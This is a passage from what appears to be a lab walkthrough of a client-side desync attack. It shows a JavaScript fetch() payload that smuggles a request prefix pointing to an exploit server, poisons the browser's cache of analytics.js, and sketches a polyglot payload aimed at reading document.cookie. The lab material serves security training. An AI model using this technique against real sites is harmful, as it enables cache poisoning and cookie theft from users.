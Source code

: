 **Browser testing payload:**
```js
fetch('https://0a4c002e03e58448c00fdcfe00e90072.h1-web-security-academy.net/..%2f', {
    method: 'POST',
    body: 'GET //exploit-0af6007803d9848ac020db8601250091.exploit-server.net/eXpLoIt HTTP/1.1\r\nX-Foo: x', // malicious prefix
    credentials: 'include', // poisons the "with-cookies" connection pool
    mode: 'no-cors' // ensures the connection ID is visible on the Network tab
}).then(() => {
    location='https://0a4c002e03e58448c00fdcfe00e90072.h1-web-security-academy.net/resources/js/analytics.js'
})
```

> Note: This time we want to redirect our browser to the exploit server. So that the `/resources/js/analytics.js` will be poisoned with our own exploit server one.

When the browser attempts to import the resource on the target site, it will use its poisoned cache entry and be redirected back to your malicious page for a third time.

We should able to land on the exploit server's "Hello world" page.
    
- On the **Network** tab, you should see three requests:
    - The main request, which triggered a server error.
    - A request for the `analytics.js` file, which received a redirect to your exploit server.
    - A request for the exploit server after following the redirect.
- With the **Network** tab still open, go to the login page.
- On the **Network** tab, find the most recent request for `/resources/js/analytics.js`. Notice that not only did this receive a redirect response, but this came from the cache. If you select the request, you can also see that the `Location` header points to your exploit server. This confirms that you have successfully poisoned the cache via a browser-initiated request.


### Combine these to craft an exploit that causes the victim's browser to poison its cache with a malicious resource import that calls `alert(document.cookie)` from the context of the main lab domain

At this stage, you've laid the foundations for an attack, but the final challenge is working out how to deliver a potentially harmful payload.

Initially, the victim's browser loads your malicious page as HTML and executes the nested JavaScript in the context of your own domain. When it eventually attempts to import the JavaScript resource on the target domain and gets redirected to your malicious page, you'll notice that the script doesn't execute. This is because you're still serving HTML when the browser is expecting JavaScript.

For an actual exploit, you need a way to serve plain JavaScript from the same endpoint, while ensuring that this only executes at this final stage to avoid interfering with the setup requests.

One possible approach is to create a polyglot payload by wrapping the HTML in JavaScript comments:

```js
alert(1);
/*
<script>
    fetch( ... )
</script>
*/
```
